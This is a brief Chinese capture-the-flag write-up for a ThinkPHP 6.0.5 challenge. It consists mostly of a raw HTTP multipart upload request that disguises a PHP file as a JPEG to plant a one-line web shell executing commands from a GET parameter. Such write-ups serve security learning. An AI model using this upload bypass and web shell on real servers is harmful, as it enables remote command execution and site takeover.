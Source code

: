 ## TrySent

真 · 签到题

可以发现网站是`ThinkPHPV6.0.5`​的，直接搜索历史漏洞 打`POC`​就能拿到`flag`​了

```plain
POST /user/upload/upload HTTP/1.1
Host: target
Cookie: PHPSESSID=7901b5229557c94bad46e16af23a3728
Content-Length: 758
Sec-Ch-Ua: " Not;A Brand";v="99", "Google Chrome";v="97", "Chromium";v="97"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrhx2kYAMYDqoTThz
Accept: */*
Origin: https://info.ziwugu.vip/
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://target.com/user/upload/index?name=icon&type=image&limit=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ja-CN;q=0.8,ja;q=0.7,en;q=0.6
Connection: close

------WebKitFormBoundaryrhx2kYAMYDqoTThz
Content-Disposition: form-data; name="id"

WU_FILE_0
------WebKitFormBoundaryrhx2kYAMYDqoTThz
Content-Disposition: form-data; name="name"

test.jpg
------WebKitFormBoundaryrhx2kYAMYDqoTThz
Content-Disposition: form-data; name="type"

image/jpeg
------WebKitFormBoundaryrhx2kYAMYDqoTThz
Content-Disposition: form-data; name="lastModifiedDate"

Wed Jul 21 2021 18:15:25 GMT+0800 (中国标准时间)
------WebKitFormBoundaryrhx2kYAMYDqoTThz
Content-Disposition: form-data; name="size"

164264
------WebKitFormBoundaryrhx2kYAMYDqoTThz
Content-Disposition: form-data; name="file"; filename="test.php"
Content-Type: image/jpeg

JFIF
<?php system($_GET[0]);?>

------WebKitFormBoundaryrhx2kYAMYDqoTThz--
```
